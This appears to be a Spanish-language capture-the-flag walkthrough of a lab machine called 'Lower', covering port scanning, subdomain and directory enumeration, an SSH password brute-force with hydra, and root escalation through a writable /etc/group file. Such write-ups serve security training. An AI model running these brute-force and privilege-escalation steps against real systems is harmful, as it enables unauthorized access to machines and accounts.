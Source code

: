 ```yaml
---
description: '🔍 Dificultad: Muy Fácil'
---
```


# Lower

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.63
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (1057).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open 192.168.1.63 --min-rate 5000 -n
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1058).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 192.168.1.63
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/image (1059).png" alt=""><figcaption></figcaption></figure>

Miramos el puerto 80 en la que ponemos el dominio **unique.nyx** en **/etc/hosts**.

<figure><img src="../../.gitbook/assets/image (1060).png" alt=""><figcaption></figcaption></figure>

Buscamos subdominios.

```bash
gobuster vhost -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://unique.nyx --append-domain
```

<figure><img src="../../.gitbook/assets/image (1061).png" alt=""><figcaption></figcaption></figure>

Encontramos este subdominio por lo que lo añadimos en **/etc/hosts**.

<figure><img src="../../.gitbook/assets/image (1062).png" alt=""><figcaption></figcaption></figure>

Aunque encontramos una nueva web no encontramos nada relevante por lo que hacemos una búsqueda de directorios.

```bash
gobuster dir -u http://tech.unique.nyx -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,txt,php,xml
```

<figure><img src="../../.gitbook/assets/image (1064).png" alt=""><figcaption></figcaption></figure>

No encontramos nada relevante pero si vemos ciertos posibles usuarios por lo que creamos un diccionario.

```bash
cewl http://tech.unique.nyx/ --with-numbers -w usuarios
```

<figure><img src="../../.gitbook/assets/image (1063).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Realizamos un ataque de fuerza bruta para obtener las credenciales.

```bash
hydra -t 64 -L usuarios -P passwords ssh://192.168.1.63 -F -I
```

<figure><img src="../../.gitbook/assets/image (1065).png" alt=""><figcaption></figcaption></figure>

Teniendo las credenciales nos logueamos.

```bash
ssh lancer@192.168.1.63
```

<figure><img src="../../.gitbook/assets/image (1066).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar. No tenemos permisos SUDO.

Usamos la herramienta [linPEAS ](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)que nos ayuda a indetificar para obtener acceso.

```bash
scp linpeas.sh lancer@192.168.1.63:/home/lancer
```

<figure><img src="../../.gitbook/assets/image (1067).png" alt=""><figcaption></figcaption></figure>

Al ejecutar el script, descubrimos que contamos con permisos de escritura en el archivo `/etc/group`. Esto nos permite modificar la configuración de los grupos y agregar al usuario `lancer` al grupo `sudo`.

```bash
nano /etc/group
su --login $USER
id
sudo su
```

<figure><img src="../../.gitbook/assets/image (1068).png" alt=""><figcaption></figcaption></figure>
